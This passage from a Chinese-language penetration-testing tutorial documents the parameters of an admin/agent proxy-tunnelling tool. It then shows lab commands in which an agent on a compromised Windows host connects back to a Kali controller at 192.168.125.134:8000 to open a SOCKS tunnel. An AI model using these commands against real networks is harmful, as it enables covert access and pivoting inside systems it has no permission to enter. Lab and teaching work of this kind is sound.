 ```
参数:
-l 被动模式下的监听地址[ip]:<port>
-s 节点通信加密密钥,所有节点(admin&&agent)必须一致
-c 主动模式下的目标节点地址
--proxy socks5代理服务器地址
--proxyu socks5代理服务器用户名(可选)
--proxyp socks5代理服务器密码(可选)
--down 下游协议类型,默认为裸TCP流量,可选HTTP
```

agent：

```
参数:
-l 被动模式下的监听地址[ip]:<port>
-s 节点通信加密密钥
-c 主动模式下的目标节点地址
--proxy socks5代理服务器地址
--proxyu socks5代理服务器用户名(可选)
--proxyp socks5代理服务器密码(可选)
--reconnect 重连时间间隔（s）
--rehost 端口复用时复用的IP地址
--report 端口复用时复用的端口号
--up 上游协议类型,默认为裸TCP流量,可选HTTP
--down 下游协议类型,默认为裸TCP流量,可选HTTP
--cs 运行平台的shell编码类型，默认为utf-8，可选gbk
```

## **一级代理**

1. 控制端配置

上传控制端到kali，使用被动模式，监听端口8000，并对通信进行加密秘钥为123。等待被控端的连接

```
./linux_x64_admin -l 192.168.125.134:8000 -s 123 
#或者不指定ip默认监听0.0.0.0
./linux_x64_admin -l 8000 -s 123
```

1. 被控端配置

在win2012-1上执行，使用秘钥123连接控制端8000端口，并设置重连间隔时间，当控制端掉线时客户端每隔8s重连控制端

```
windows_x64_agent.exe -c 192.168.125.134:8000 -s 123 --reconnect 8
```

![图片](assets/640-16996178670831.png)

此时客户端与控制端间搭建了一条socks隧道。

